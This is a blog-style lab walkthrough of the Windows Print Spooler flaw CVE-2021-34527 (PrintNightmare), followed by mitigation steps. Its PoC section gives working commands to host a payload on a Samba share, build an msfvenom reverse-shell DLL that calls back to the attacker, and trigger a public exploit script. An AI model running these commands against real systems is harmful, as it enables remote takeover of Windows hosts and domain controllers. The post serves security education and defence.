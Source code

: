 ```yaml
---
title: PrintNightmare PoC - (CVE-2021-34527)
author: Vinay Sudheer
date: 2021-07-05
categories: [PoC]
tags: [Windows, PoC]
pin: true
math: true
mermaid: true
image:
  path: #/commons/devices-mockup.png
  lqip: #data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: #Responsive rendering of Chirpy theme on multiple devices.
---
```


This is a short take relating to the recent spooler bug that was discovered in the windows environment, marked by CVE-2021-34527. This flaw is proven to be exploited to achieve remote code execution on windows environments that has not disabled this service and is kept up and running.

## About CVE-2021-34527

[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) was discovered by [researcher](https://twitter.com/edwardzpeng?lang=en), this flaw was initially classified as a Low severity vulnerability which can only be exploited for Privilege Escalation. But on June 21, 2021 the severity was changed to Critical as it was discovered that this bug allows authenticated remote code execution.

By taking advantage of this flaw an attacker could potentially get System level Administrative access on the Domain Controller in an Active Directory environment which can lead to the take over of the entire network/organisation. Various versions affected are Windows Server (2004, 2008, 2008 R2, 2012, 2012 R2, 2016, 2019, 20H2) and Windows (7, 8.1, RT 8.1, 10).

Windows Print Spooler service is by default enabled with all windows versions and is used to schedule printing jobs, find the printers in the network and so on. It's an old windows component (20+ years) and researchers find bugs in it occasionally. Ten years ago the notorious stuxnet worm that made damages to the nuclear plant in Iran was due to exploiting a similar bug which was embedded in the Windows Spooler service.

Microsoft Windows Print Spooler fails to restrict access to [RpcAddPrinterDriverEx()](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) function, in windows 10 this function can be seen in the snap-in module called printmanagement.msc. The module can be reached via the "Printers and Scanners" available in the settings. In this module by default it allows the operation of management of Print Server which means that a new print server can be added or modified by the current user(Low privileged) in the system.

![image-20210705112432286](/assets/img/CVE-2021-34527/image-20210705112432286.png)

## PoC

This is a replication of the PoC from [Cube0x0](https://github.com/cube0x0/CVE-2021-1675). Credit to [Jaacostan](https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html) for his article which I referred to while creating this PoC of mine. This Proof of Concept demonstration will be confined to Windows 10 environment and the attacking system(Kali Linux). This version of Windows 10 doesn't have the latest patch installed and is running as a Virtual Machine.

Before starting of make sure that Windows Firewall and Defender are disabled. This is because in the later steps we'll be using a generic payload which doesn't have any encoding or defence evasion techniques implemented in it, when this is the case the Windows Defender will detect the payload and flag it as malicious when it's trying to retrieve and execute it from the hosted path in the attackers system.

![image-20210704214647576](/assets/img/CVE-2021-34527/image-20210704214647576.png)

![image-20210704214732860](/assets/img/CVE-2021-34527/image-20210704214732860.png)

Made a note of the Local address of Win10.

![image-20210704214754639](/assets/img/CVE-2021-34527/image-20210704214754639.png)

Set up a samba share with anonymous login enabled on the attacking machine. This is required for hosting the malicious .dll payload. Make changes to the smb.conf file located at /etc/samba/smb.conf. I'd advise to create a backup of this file before making any changes. Add the following lines to the end of the smb.conf configuration file.

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[public]
    comment = Samba
    path = /var/public
    guest ok = yes
    read only = no
    browsable = yes
    force user = root
```

![image-20210704214844003](/assets/img/CVE-2021-34527/image-20210704214844003.png)

Here the share folder is in /var/public. The payload must be hosted here. Folder can be named anything, make sure the name is changed in the configuration file.

Create a folder in /var/ named public if it's not already present

```
sudo mkdir /var/public
```

Provide the necessary permissions

```
sudo chmod 0777 /var/public
```

Restart the samba service for the changes to take effect

```
systemctl restart smbd
```

Install the version of impacket version which is mentinoned in Cube0x0 PoC by the following

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Make a note of the attacker machine Local IP address.

![image-20210704215959333](/assets/img/CVE-2021-34527/image-20210704215959333.png)

Create the .dll payload using msfvenom.

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=172.16.104.1 LPORT=443 -f dll -o ./revshell.dll
```

![image-20210704215148765](/assets/img/CVE-2021-34527/image-20210704215148765.png)

Copy the revshell.dll to the samba share folder in /var/public.

Clone the exploit file locally from the repository https://github.com/cube0x0/CVE-2021-1675

Now listen on port 443 using Netcat and trigger the exploit.

./CVE-2021-1675.py [domain]/[username]:[password]@target '\\\Location of share'

```
./CVE-2021-1675.py Test:Testrainbow6@172.16.104.129 '\\172.16.104.1\\public\\revshell.dll'
```

![image-20210704215118484](/assets/img/CVE-2021-34527/image-20210704215118484.png)

![image-20210704215206211](/assets/img/CVE-2021-34527/image-20210704215206211.png)

## Mitigation

Microsoft recommends to apply security update patches released on 8th June, 2021, it is also recommended to disable the Print spooler service if not in use.

- Check if spooler service is running

```powershell
Get-Service -Name Spooler
```

- If the service is described as running, perfrom the following-

  a. **Disable the Print spooler service**

  ```powershell
  Stop-Service -Name Spooler -Force

  Set-Service -Name Spooler -StartupType Disabled
  ```

  Note: Disabling the service disables the ability to print locally and remotely

  b. **Disable inbound remote printing through Group Policy**

  Go to Computer Configuration / Administrative Templates / Printers

  Disable the “Allow Print Spooler to accept client connections:” policy to block remote attacks.

  You must restart the Print Spooler service for the group policy to take effect.

  Refer to the this Microsoft article for the workaround (https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-34527)

## Credits

- https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html

- https://github.com/cube0x0/CVE-2021-1675

- https://github.com/JohnHammond/CVE-2021-34527

- https://www.blog.afine.academy/exploit-na-windowsa-10-czyli-eskalacja-przywilejow-made-in-poland/

- https://msandbu.org/printnightmare-cve-2021-1675/
